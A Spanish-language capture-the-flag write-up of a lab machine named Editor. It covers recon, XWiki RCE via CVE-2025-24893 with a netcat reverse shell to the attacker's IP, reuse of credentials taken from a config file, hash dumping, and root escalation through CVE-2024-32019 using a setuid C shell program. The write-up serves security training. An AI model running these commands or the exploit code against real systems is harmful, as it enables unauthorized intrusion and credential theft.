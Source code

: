 # Editor

**Dificultad:** Easy  
**SO:** Linux  

## Metodología

### Reconocimiento inicial

#### Reconocimiento del SO y puertos con NMAP

Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.80
nmap -sS -p- --min-rate 5000 10.10.11.80 -oG allPortsEditor
nmap -sCV -p 22,80 -n -nP 10.10.11.80 -oA sondeoEditor
```

![Ping](images/editor_ping_inicial.PNG)
![Nmap puertos](images/editor_all_ports.PNG)
![Nmap servicios](images/editor_sondeo_1.PNG)
![Nmap servicios](images/editor_sondeo_2.PNG)

#### Actualizar /etc/hosts (actúa como dns local)

Asociamos el nombre del host (editor.htb) con su dirección IP (10.10.11.80).

```bash
nano /etc/hosts
```

![/etc/hosts](images/editor_dns_local.PNG)

### Reconocimiento web

#### Análisis con Wappalyzer

Permite identificar las `tecnologías` que se utilizan en esta `web`.

![Wappalyzer](images/editor_wappalyzer.PNG)

#### Enumeración de subdirectorios con Feroxbuster

Se ven redirecciones a `http://editor.htb:8080/xwiki/bin/login/XWiki/XWikiLogin`.

```bash
feroxbuster -u http://editor.htb:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -C 404
```

![Feroxbuster](images/editor_feroxbuster.PNG)

#### XWiki Login

En la página de `login` de XWiki se observa la `versión XWiki Debian 15.10.8` (tambien se veía en la página principal pero había que scrollear pabajo o7).

![XWiki Login](images/editor_xwiki_version.PNG)

### CVE-2025-24893 - RCE en XWiki

Vulnerabilidad de ejecución remota de código (RCE) en XWiki < 15.10.11, 16.4.1, 16.5.0RC1.

XWiki incluye una macro llamada `SolrSearch` (definida en Main.SolrSearchMacros) que permite la búsqueda de texto a través del motor Solr integrado. La vulnerabilidad se debe a la forma en que esta `macro evalúa` los parámetros de búsqueda en `Groovy`, al `no sanear ni restringir la entrada` maliciosa.

Un atacante puede `inyectar expresiones de Groovy` en la search query mediante una request GET y hacer que el `sistema evalúe codigo arbitrario` dentro del contexto del `servidor XWiki`.

En el endpoint vulnerable GET /xwiki/bin/view/Main/SolrSearch?search= un atacante puede inyectar código Groovy, provocando una `RCE` directa si la expresión Groovy incluye comandos a nivel de sistema.

[CVE-2025-24893](https://www.offsec.com/blog/cve-2025-24893/)

[dollarboysushil PoC](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC/blob/main/CVE-2025-24893-dbs.py)

#### Reverse shell

Ejecutamos el exploit y obtenemos una `reverse shell` como `xwiki`.

```bash
python exploit.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.16.22 1337 -e /bin/bash'
```

![Reverse shell](images/editor_reverse_shell.PNG)

#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación

En el `fichero /etc/xwiki/hibernate.cfg.xml` se encuentra la configuración de la base de datos de xwiki junto con las credenciales `xwiki:theEd1t0rTeam99`.

![Fichero hibernate.cfg.xml](images/editor_hibernate_cfg_xml.PNG)

#### Enumerando DB

Enumerando la base de datos, se encuentra el usuario `neal` con su password, `hash:SHA-512:dac65976a9f09bcd15bd2c5c6eae4c43b06f316be7ae6b191db26580b1211bef:6b8f547e3742e998380da4f9d426773430a7982a946b9bfd94da0d7abe0d472c5ff08fcb8b0a908bc293da82298053ba348872099bd88f059a7838c38b670153`.

```bash
mysql -u xwiki -p 'theEd1t0rTeam99' -h localhost xwiki
```

```sql
SHOW TABLES;
DESCRIBE xwikistrings;
DESCRIBE xwikiobjects;
SELECT XWO_ID, XWO_NAME FROM xwikiobjects;
SELECT XWO_ID, XWO_NAME FROM xwikiobjects WHERE XWO_CLASSNAME = 'XWiki.XWikiUsers';
SELECT XWS_NAME, XWS_VALUE FROM xwikistrings WHERE XWS_ID = -5552625943482576562 AND XWS_NAME = 'password';
```

![SHOW TABLES](images/editor_xwiki_DB_show_tables.PNG)
![DESCRIBE](images/editor_xwiki_DB_describe.PNG)
![SELECTS](images/editor_xwiki_DB_select.PNG)

Según XWiki la `estructura de la password` es `Algoritmo:Salt:Hash`.

[Default password en xwiki](https://github.com/xwiki/xwiki-platform/security/advisories/GHSA-p6cp-6r35-32mh)

#### Hashcat

Al lanzar `hashcat` en modo `1710` ( `SHA512($salt.$pass)` ) para crackearlo por `diccionario` no pillé nada, entendiendo que por aquí no iba la cosa.

![Hashcat 1](images/editor_hashcat_1.PNG)
![Hashcat 2](images/editor_hashcat_2.PNG)

#### Recogiendo cuerda 

En el /home se puede ver que tenemos que `escalar a oliver`, por lo que intenté conectarme por ssh con la contraseña encontrada en el hibernate.cfg.xml (`theEd1t0rTeam99`) con éxito.

![Listando /home](images/editor_recogida_de_cuerda.PNG)

#### SSH

Nos conectamos por SSH con el usuario oliver.

```bash
ssh oliver@10.10.11.68
```

![SSH 1](images/editor_ssh_oliver_1.PNG)
![SSH 2](images/editor_ssh_oliver_2.PNG)

#### Escalada a root

Al ver que oliver puede ejecutar `ndsudo` con permisos de root (binario con SUID).

![Binarios con SUID](images/editor_find_suid.PNG)

#### CVE-2024-32019 - Ndsudo local privilege escalation via untrusted search path

Se puede realizar la escalada `creando un ejecutable` cuyo `nombre` esté en la `lista de comandos de ndsudo`, después hay que `exportar el path` y lanzar el ejecutable con ndsudo.

Lo primero es ver que comandos se pueden ejecutar con ndsudo:

![ndsudo --help](images/editor_ndsudo_help.PNG)
![ndsudo nvme-list](images/editor_ndsudo_nvme_list.PNG)

Es decir ambos `ejecutan el binario nvme` al lanzarlos y meten los `propios parámetros` del `comando` en cuestión.

```c
struct command {
    const char *name;
    const char *params;
    const char *search[MAX_SEARCH];
} allowed_commands[] = {
    {
        .name = "nvme-list",
        .params = "list --output-format=json",
        .search = {
            [0] = "nvme",
            [1] = NULL,
        },
    },
    {
        .name = "nvme-smart-log",
        .params = "smart-log {{device}} --output-format=json",
        .search = {
            [0] = "nvme",
            [1] = NULL,
        },
    }
};
```

[Estructura de comandos ndsudo](https://github.com/netdata/netdata/blob/master/src/collectors/utils/ndsudo.c)

#### Creando el ejecutable nvme

Con un simple programa en C podemos forzar a que use el user y group de root y lanzar lo que queramos.

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
    return 0;
}
```

![nvme exploit](images/editor_nvme_exploit.PNG)

### Limpieza del entorno

Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.

![Limpieza](images/editor_limpieza_entorno.PNG)
